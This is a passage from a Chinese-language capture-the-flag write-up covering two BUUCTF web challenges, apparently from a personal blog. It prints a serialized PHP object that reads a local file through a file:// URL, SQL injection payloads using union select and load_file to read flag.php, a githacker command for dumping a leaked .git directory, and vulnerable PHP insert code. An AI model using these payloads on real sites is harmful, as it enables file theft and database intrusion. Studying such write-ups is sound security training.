 有个curl，反序列化点

```
$age = 18;
$blog = "file:///var/www/html/flag.php";
$name = "amiz";
$a = new UserInfo($name,$age,$blog);
echo serialize($a);
```

```
O:8:"UserInfo":3:{s:4:"name";s:4:"amiz";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

但是本身这玩意还得有个注入点，它在url最后的`no`参数处

```
/view.php?no=1 order by 4%23	# 5报错 共4列
```

不反序列化也行，它没过滤`load_file`直接就读文件了

```
/view.php?no=-1 union/**/select/**/1,load_file("/var/www/html/flag.php"),3,4%23
```

有点奇怪的，你说它过滤空格，但是前面那个不用注释也可以，而且前面参数是1还不行

{{% /spoiler %}}

## page 03

{{% spoiler "[网鼎杯 2018]Comment  |  git泄露  sqli 二次注入 load_file" %}}

发帖会先要求登录，提示`zhangwei: zhangwei***`，盲猜666，登入

帖子的详情页可以提交留言，这里有xss（但是没啥用 又没bot），f12有一句提示`程序员GIT写一半跑路了,都没来得及Commit :)`，用Githacker看看源码

```
githacker --url http://c7839413-2569-4342-ac29-8b5810a4c8c4.node4.buuoj.cn:81/ --folder result
```

因为提示说有一个记录没有commit，我们尝试恢复

```
git log --reflog	# 有一条后面带括号(refs/stash) 暂存区
sudo git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c
```

得到完整的源码

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
    switch ($_GET['do'])
    {
        case 'write':
            $category = addslashes($_POST['category']);
            $title = addslashes($_POST['title']);
            $content = addslashes($_POST['content']);
            $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
            $result = mysql_query($sql);
            header("Location: ./index.php");
```